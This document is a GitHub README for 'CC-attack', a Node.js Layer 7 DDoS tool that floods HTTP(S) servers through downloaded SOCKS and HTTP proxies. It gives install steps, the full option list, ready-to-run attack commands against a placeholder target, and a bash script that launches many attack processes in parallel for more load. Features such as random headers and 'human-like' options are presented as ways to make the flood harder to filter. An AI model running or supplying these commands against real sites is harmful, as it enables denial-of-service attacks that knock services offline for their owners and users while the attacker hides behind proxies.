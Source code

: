        /////    /////    /////////////
      CCCCC/   CCCCC/   | CC-attack |/
     CC/      CC/       |-----------|/
     CC/      CC/       |  Layer 7  |/
     CC/////  CC/////   | ddos tool |/
      CCCCC/   CCCCC/   |___________|/

# CC-attack ![](https://img.shields.io/badge/Version-3.7.1-brightgreen.svg) ![](https://img.shields.io/badge/license-GPLv2-blue.svg)
 A script for using socks4/5 or http proxies to attack http(s) server.

## Translations
![](https://img.shields.io/badge/Version-Node-brightgreen.svg)
![](https://img.shields.io/badge/Version-Python-lightblue.svg)

 News:
- [x] Added Support of HTTP proxies
- [x] Added More proxies api to download

 Info:
- [x] Using nodeJS
- [x] Added more human-like options
- [x] Http Get/Head/Post/Slow Flood
- [x] Random Http Header/Data
- [x] Socks4/5 Proxies Downloader
- [x] Socks4/5 Proxies Checker
- [x] Customize Cookies
- [x] Customize Post Data
- [x] Support HTTPS
- [x] Support Socks4/5

## Showcase
Using multiproc.sh with socks4 on a vps
![](https://i.imgur.com/KLJIZs8.png)

## Install

    git clone https://github.com/Leeon123/CC-attack.git
    npm i
    cd CC-attack-js

## Usage

    node cc.js <arguments>

```
===============  CC-attack help list  ===============
   -h/help   | showing this message
   -url      | set target url
   -m/mode   | set program mode
   -data     | set post data path (only works on post mode)
             | (Example: -data data.json)
   -cookies  | set cookies (Example: 'id:xxx;ua:xxx')
   -v        | set proxy type (4/5/http, default:5)
   -t        | set threads number (default:800)
   -f        | set proxies file (default:proxy.txt)
   -b        | enable/disable brute mode
             | Enable=1 Disable=0  (default:0)
   -s        | set attack time(default:60)
   -down     | download proxies
   -check    | check proxies
=====================================================
```
### Some example of the usage
Download socks5 proxies as proxy.txt:
```
node cc.js -down -f proxy.txt -v 5
```
Attack a target with custom proxies list(socks4.txt) for 30 seconds :
```
node cc.js -url http://target.com -f socks4.txt -v 4 -s 30
```

## Usage of multiproc.sh
```
This script is using for increasing the performance of cc.js.
Due to the suck performance of python since it has a GIL lock,
And the main repo owner was lazy to make a multiprocess version.
I'm lazy too and wont make it with node, even though Node has multiprocess.
There is a option for linux user to increase their performance of cc.js

This script basicly just run cc.js multiple times to make it "multi-processing"

First, put this script and cc.js in the same folder.

Then prepare the proxies list by yourself or just run "node cc.js -down -v 4" (-v socks version)

After that, change the number of process.

At last, change atk_cmd to your command and run the script by "bash multiproc.sh"
```
Example setup of multiproc.sh (-v socks version) (-s attack time)
```
# Command to run your Node.js script
atk_cmd="node cc.js -url http://target.com -v 4 -s 60"

# Number of processes you want
process=10

# Change the system limit
ulimit -n 999999

echo Attack started
for ((i=1; i<=$process; i++))
do
  $atk_cmd >/dev/null &
  sleep 0.1
done
```

